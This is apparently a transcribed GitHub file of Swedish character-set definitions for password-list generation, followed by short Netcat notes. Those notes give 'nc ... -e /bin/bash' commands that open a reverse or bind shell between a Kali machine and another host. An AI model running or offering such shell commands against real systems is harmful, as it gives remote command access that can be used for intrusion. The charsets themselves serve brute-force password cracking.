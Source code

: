 #########################

### Uppercase ###

ualpha-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ]
ualpha-space-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ ]
ualpha-numeric-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789]
ualpha-numeric-space-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789 ]
ualpha-numeric-symbol14-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=]
ualpha-numeric-symbol14-space-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+= ]
ualpha-numeric-all-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
ualpha-numeric-all-space-sv = [ABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/ ]

### Lowercase ###

lalpha-sv = [abcdefghijklmnopqrstuvwxyzåäö]
lalpha-space-sv = [abcdefghijklmnopqrstuvwxyzåäö ]
lalpha-numeric-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789]
lalpha-numeric-space-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789 ]
lalpha-numeric-symbol14-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789!@#$%^&*()-_+=]
lalpha-numeric-symbol14-space-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789!@#$%^&*()-_+= ]
lalpha-numeric-all-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
lalpha-numeric-all-space-sv = [abcdefghijklmnopqrstuvwxyzåäö0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/ ]

### Mixcase ###

mixalpha-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ]
mixalpha-space-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ ]
mixalpha-numeric-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789]
mixalpha-numeric-space-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789 ]
mixalpha-numeric-symbol14-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=]
mixalpha-numeric-symbol14-space-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+= ]
mixalpha-numeric-all-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
mixalpha-numeric-all-space-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/

## Netcat

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)

MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
	nc -l 8888 (listen - cannot execute -e directly)
